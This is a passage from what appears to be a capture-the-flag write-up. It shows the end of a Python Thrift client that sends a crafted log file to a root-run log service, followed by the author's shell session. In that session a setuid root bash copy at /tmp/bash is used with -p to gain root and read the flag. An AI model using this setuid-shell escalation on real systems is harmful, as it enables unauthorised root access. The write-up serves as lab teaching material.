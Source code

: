 ```python
    finally:
        # Close the connection
        transport.close()

if __name__ == "__main__":
    main()
```

I used senior dev jippity to assist me here. I import the generated files from LogService and the necessary thrift modules. I define the file for the log and then send the request to the server to use the ReadLogFile function post connection. You do need to install thrift with pip: `pip3 install thrift`.

Step 7: run the script and pray

```bash
python3 script.py 
Thrift error: Internal error processing ReadLogFile: error opening log file: open /tmp/exploit.log: no such file or directory
```

We are connecting it seems, time to create the file labelled above and run again.

```bash
margo@caption:~$ nano /tmp/exploit.log
```

```bash
python3 script.py 
Contents of /tmp/exploit.log:
Log file processed
```

Well supposedly it worked, only one way to find out though.

```bash
margo@caption:~$ ls -al /tmp/bash
-rwsr-xr-x 1 root root 1396520 Sep 19 21:58 /tmp/bash
margo@caption:~$ /tmp/bash -p
bash-5.1# id
uid=1000(margo) gid=1000(margo) euid=0(root) groups=1000(margo)
bash-5.1# cat /root/root.txt
0e813346a0b---------------------
```
